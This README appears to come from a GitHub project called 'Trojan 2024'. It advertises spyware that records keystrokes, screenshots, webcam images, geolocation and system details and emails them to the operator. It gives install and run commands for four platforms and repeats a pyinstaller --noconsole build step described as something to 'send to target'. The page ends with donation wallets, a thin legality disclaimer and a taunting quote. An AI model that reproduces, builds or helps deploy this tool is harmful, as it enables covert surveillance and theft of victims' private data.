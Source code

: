 Trojan 2024: A Multi-Platform Information Gathering Script .

Features :
===========
Screenshots
Keystrokes
Hardware and network information
Geolocation data
Front camera captures
All data is securely delivered via email for your convenience.

Key Features
============
Screenshot Capture: Automatically captures desktop activity every 60 seconds.
============
Keylogging: Records typed text at configurable intervals.
============
Hardware Information: Retrieves details like CPU, GPU, and RAM specs.
============
Network Data: Captures IP addresses, MAC addresses, and more.
============
Geolocation Tracking: Provides approximate location details.
============
Camera Access: Takes images using the front camera (if available).
============


Installation and Setup
=============
Windows
=============
Open PowerShell or Command Prompt.
=============
git clone https://github.com/BlackNode-stack/2024Trojan.git
=============
cd 2024Trojan
=============
pip install -r requirements.txt
=============
python Run.py
=============

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py



macOS
Open the Terminal.
Clone this repository
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
python3 -m pip install -r requirements.txt
python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Termux (Android)
Install Termux from F-Droid or the Google Play Store.
Update packages
pkg update && pkg upgrade
pkg install git python
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojanpip install -r requirements.txt
python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Linux
Open the Terminal.
Clone this repository
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
python3 -m pip install -r requirements.txt
python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Usage Instructions
Email Configuration
During setup, you’ll need to provide:

The sender email.
The app password (generated through your email provider).
The recipient email address for receiving data.
Follow the platform-specific instructions to execute the script and ensure that data is sent correctly to your email.

Support
BTC Wallet: bc1q3kqdczj6q780y642yq9dvvfuk43g5a5uxn83f2
Ethereum Wallet: 0xE8e903eE127113c30aFd52acbDbdB567968534Ea
Feel free to support or donate if this tool was helpful to you! 😊

Disclaimer
Warning: This tool is intended for ethical and legal purposes only, such as cybersecurity research and penetration testing (with proper authorization). Unauthorized or malicious use of this script is illegal.

"Your defenses are paper walls against my storm. Every keystroke whispers your secrets; every shadow hides my trace. By the time you notice, I'll already be gone... or maybe I’ll just be watching."

